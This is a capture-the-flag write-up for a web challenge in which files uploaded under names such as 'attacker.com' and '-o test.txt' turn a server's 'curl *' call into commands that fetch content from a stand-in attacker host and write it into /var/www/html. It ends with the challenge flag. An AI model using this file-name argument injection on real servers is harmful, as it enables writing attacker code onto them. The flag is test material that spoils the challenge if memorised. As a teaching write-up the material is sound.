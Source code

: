 # [Web] Warmup

Let's start off with this warmup challenge, shall we?

## Attachments

- [warmup.zip](attachments/warmup.zip)

## Inspiration

This challenge was inspired from the web/submissions challenge of [x3CTF 2025 (feat. mvm)](https://x3c.tf/). You can watch the solution/walkthrough of this challenge [here](https://www.youtube.com/watch?v=0TNxp2SIxAo).

To learn more about [bash globbing abuse](https://oxasploits.com/posts/bash-wildcard-expansion-arbitrary-command-line-arguments-0day/).

## Solution

The basic functionality of the app is that it allows users to upload files which are then moved to a random folder under the uploads/ directory. There is another file `test.php` which will go into that uploads directory and then run the following command:

```
curl *
```

The way it would work is that the shell will first expand the "*" into files/arguments which will be then passed to curl. For example, consider that the uploads folder contain the following files:

```
attacker.com
-o test.txt
```

The full command will then be expanded to:

```
curl attacker.com -otest.txt
```

After which running, it will then store the response of attacker.com into a file named "test.txt".
So, we can upload arbitrary arguments to curl by uploading a file with the argument as the file name. Now, curl supports various arguments which you can provide, my solution was to upload a config file which contains arguments for storing the response of my server in /var/www/html.

My solution script: [solve.py](solve.py)

## Flag

```
STC{b45h_gl0b_1nj3c710n_v14_f1l3_upl04d_g035_brrrrrrr}
```